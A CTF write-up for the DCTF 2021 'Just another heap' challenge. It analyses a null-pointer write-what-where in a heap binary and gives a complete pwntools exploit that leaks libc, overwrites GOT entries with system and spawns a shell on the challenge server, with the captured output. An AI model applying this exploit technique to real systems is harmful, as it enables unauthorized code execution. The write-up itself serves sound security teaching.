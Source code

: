 # DCTF 2021

## Just another heap

> 500
> 
> There are so many ways you can pwn this.
> 
> `nc dctf-chall-just-another-heap.westeurope.azurecontainer.io 7481`
>
> [just\_another\_heap](just_another_heap) [Dockerfile](Dockerfile)

Tags: _pwn_ _x86-64_ _malloc_ _null-pointer_ _heap_ _heap-not_ _write-what-where_ _got-overwrite_


## Summary

IMHO, the simplest [portable] way to pwn this was to use a null-pointer + offset to _write-what-where_ the GOT.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

All of the pointers to the heap are in global arrays; the _no-PIE_ will be helpful for that; same goes for the GOT as well (Partial RELRO = GOT vulnerable to overwrite).

### Decompile with Ghidra

> All naming done by hand, there was nothing for free here (except libc labels).

```c
      puts("name:");
      uVar2 = local_38;
      pvVar3 = malloc(0x20);
      *(void **)(&memory_name_ptr_00602260 + uVar2 * 8) = pvVar3;
      prompt_fgets(*(undefined8 *)(&memory_name_ptr_00602260 + local_38 * 8),0x10);
      lVar1 = *(long *)(&memory_name_ptr_00602260 + local_38 * 8);
      sVar4 = strcspn(*(char **)(&memory_name_ptr_00602260 + local_38 * 8),"\n");
      *(undefined *)(sVar4 + lVar1) = 0;
      puts("How long is your memory");
      prompt_lu(&local_48);
      local_30 = malloc(local_48);
      puts("Sometimes our memories fade and we only remember parts of them.");
      prompt_lu(&local_40);
      puts("Would you like to leave some space at the beginning in case you remember later?");
      if (local_48 < local_40) {
        puts("Invalid offset");
      }
      else {
        if (local_30 != (void *)0x0) {
          local_4c = 0;
          while ((ulong)(long)local_4c < local_40) {
            *(undefined *)((long)local_30 + (long)local_4c) = 0x5f;
            local_4c = local_4c + 1;
          }
        }
        local_30 = (void *)((long)local_30 + local_40);
        fflush(stdin);
        puts("What would you like to write");
        prompt_fgets(local_30,local_48 - local_40);
        puts("Would you say this memory is important to you? [Y/N]");
        prompt_fgets(local_24,2);
```

This section of the `create` function contains the _write-what-where_ that we'll use to setup a libc leak as well as overwrite the GOT for a shell.

The `local_30 = malloc(local_48);` statement with a sufficiently large input (`local_48`) will fail and end up as zero (null), with the only check for this an initialization section (`if (local_30 != (void *)0x0) {`).

The `prompt_lu(&local_40);` statement sets our offset and is then used to compute the target address with: `local_30 = (void *)((long)local_30 + local_40);`.  The only input validation is `local_48 < local_40`; the length of the initial length must be greater than the offset (both inputs are `unsigned long`).

With this, we can set the length (`local_48`) to `2**64 - 1`, and `malloc` will quietly fail setting `local_30` to `0`.  This ends up with `local_40` containing the target location to overwrite.  We have our _where_.

The _what_ is provided by: `prompt_fgets(local_30,local_48 - local_40);`.  `prompt_fgets` is just a frontend to `fgets`, however we need to leverage that `int param_2`:

```c
void prompt_fgets(char *param_1,int param_2)
{
  printf("> ");
  fgets(param_1,param_2,stdin);
  return;
}
```

The `local_48 - local_40` passed to `fgets` is problematic, if `local_48` is very large [to get `malloc` to return a null], and `local_40` is relatively small (a valid address, say in the GOT (`0x600000` range)), then the difference will be very large, `fgets` will call `malloc` and that `malloc` will fail as well.

To get a reasonable [small] input for `fgets` we need to find the right value of `local_48` reduced by `local_40` then _anded_ with `0xffffffff` (this is the `int param_2` from `prompt_fgets`; we are calling a function with an `unsigned long` as an input, however the function is expecting an `int` (32-bit), so we can assume only the lower 32-bits will be used).

```python
2**64 - 2**32 + target + size
```

You can work out the math yourself, but this will properly set `local_48` and `local_40` so that `malloc` nulls out, leaving our target address in `local_40` to satisfy the _where_ (`local_30 = (void *)((long)local_30 + local_40);`), and `local_48 - local_40` will just end up something like `0xffffffff0000000a` that when reduced to 32-bits by `prompt_fgets` will be a `size` of `0xa` in this example.

We have our _what_, now we just need a leak.

```c
      pvVar3 = malloc(0x20);
      *(void **)(&memory_name_ptr_00602260 + uVar2 * 8) = pvVar3;
      prompt_fgets(*(undefined8 *)(&memory_name_ptr_00602260 + local_38 * 8),0x10);
```

At the start of `create` we're prompted for a _name_ that is malloc'd and then the pointer stored in a global array based at `0x602260`.

To leak libc all we need to do is use our _write-what-where_ to change that pointer to point to some place in the GOT or BSS to pickup a libc leak.  The `list` function emits the names and therefore our leak.

> The libc version was provided in the form of a `Dockerfile`.  I've included it (`libc.so.6`) as part of this writeup since a future update to Ubuntu 18.04 may change the version of libc.

## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./just_another_heap')
binary.symbols['names'] = 0x602260

if args.REMOTE:
    p = remote('dctf-chall-just-another-heap.westeurope.azurecontainer.io', 7481)
    libc = ELF('./libc.so.6')
else:
    import signal
    p = process(('stdbuf -i0 -o0 -e0 '+binary.path).split(),preexec_fn=lambda: signal.signal(signal.SIGALRM, signal.SIG_IGN))
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
```

Standard pwntools setup, however I added the symbol `names`, and have my local process ignoring SIGALRM.

> No `setvbuf` in challenge binary, so I had to prepend `stdbuf`.

```python
p.sendlineafter('> ','1')
p.sendlineafter('> ','0')
p.sendlineafter('> ','blah')
p.sendlineafter('> ',str(2**64 - 2**32 + binary.sym.names + 10))
p.sendlineafter('> ',str(binary.sym.names))
p.sendlineafter('> ',p64(binary.got.puts))
p.sendlineafter('> ','N')
p.sendlineafter('> ','N')
p.sendlineafter('> ','5')

p.recvuntil('0: ')
puts = u64(p.recv(6) + b'\0\0')
log.info('puts: ' + hex(puts))
libc.address = puts - libc.sym.puts
log.info('libc.address: ' + hex(libc.address))
```

Based on the analysis above this should be fairly clear.  Just add an entry, name it `blah`, but immediately overwrite its pointer with the location of GOT `puts`, then `list` (`5`) and capture the leak.

```python
p.sendlineafter('> ','1')
p.sendlineafter('> ','1')
p.sendlineafter('> ','blah')
p.sendlineafter('> ',str(2**64 - 2**32 + binary.got.strcspn + 10))
p.sendlineafter('> ',str(binary.got.strcspn))
p.sendlineafter('> ',p64(libc.sym.system))
p.sendlineafter('> ','N')
p.sendlineafter('> ','N')
```

Same as the previous, but this time change `strcspn` to `system` in the GOT.

```python
p.sendlineafter('> ','1')
p.sendlineafter('> ','2')
p.sendlineafter('> ','/bin/sh')
p.interactive()
```

Finally, create a 3rd memory, but the `strcspn` that was used to replace the `\n` with `\0` is now `system`, so just ask for a shell as your _name_.

Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/dctf2021/just_another_heap/just_another_heap'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to dctf-chall-just-another-heap.westeurope.azurecontainer.io on port 7481: Done
[*] '/pwd/datajerk/dctf2021/just_another_heap/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] puts: 0x7fd942288aa0
[*] libc.address: 0x7fd942208000
[*] Switching to interactive mode
$ id
uid=1000(pilot) gid=1000(pilot) groups=1000(pilot)
$ cat flag.txt
dctf{I_h4V3_0_id3a_h0W_y0u_G0T_h3r3}
```
